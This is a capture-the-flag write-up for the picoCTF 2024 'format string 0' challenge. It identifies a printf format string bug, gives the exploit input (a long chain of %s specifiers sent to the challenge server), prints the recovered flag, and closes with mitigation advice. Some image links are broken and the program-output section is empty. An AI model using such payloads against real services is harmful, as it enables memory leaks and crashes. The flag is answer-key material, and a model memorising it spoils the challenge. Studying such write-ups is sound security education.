






# picoCTF 2024 – format string 0

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Author:** Cheng Zhang

---

## Description



> Can you use your knowledge of format strings to make the customers happy?

Challenge provides:
- **Binary**: `format-string-0`
- **Source code**: `format-string-0.c`
- **Server**: `nc mimas.picoctf.net 60222`

---

## Analysis

When connecting to the server, the program outputs:



Notice the burger names contain suspicious strings:
- `Breakf@st_Burger`
- `Gr%114d_Cheese` ← contains format specifier `%114d`
- `Bac0n_D3luxe`

This is a clear hint of a **Format String Vulnerability**: if user input is passed directly into `printf()` without a proper format string, specifiers like `%s`, `%p`, `%x` will be interpreted and executed by the C runtime.

---

## Exploitation

### Step 1: Download the binary and source code





```bash
wget https://artifacts.picoctf.net/c_mimas/79/format-string-0
wget https://artifacts.picoctf.net/c_mimas/79/format-string-0.c
chmod +x format-string-0
```



### Step 2: Test with a simple format specifier

Try entering `%p` to see if the program leaks memory addresses:

```
Enter your recommendation: %p
There is no such burger yet!
```

Not enough to trigger the leak — we need more.

### Step 3: Use a long chain of `%s` specifiers

Send a long string of `%s` to read data off the stack:

```
Enter your recommendation: %s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```

Each `%s` causes `printf` to pop a value off the stack and dereference it as a pointer to a string. Eventually it hits the memory region where the flag is stored and prints it out.



---

## Flag

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

---

## Key Takeaways

| Vulnerability | Description |
|---------------|-------------|
| **Format String Bug** | Using `printf(input)` instead of `printf("%s", input)` lets the user control the format string |
| **Stack Leak** | `%s` pops stack values and dereferences them as string pointers, leaking memory |
| **SEGFAULT risk** | Too many `%s` can crash the program if an invalid address is dereferenced |

> **Mitigation:** Always use `printf("%s", user_input)` instead of `printf(user_input)` to prevent format string vulnerabilities.
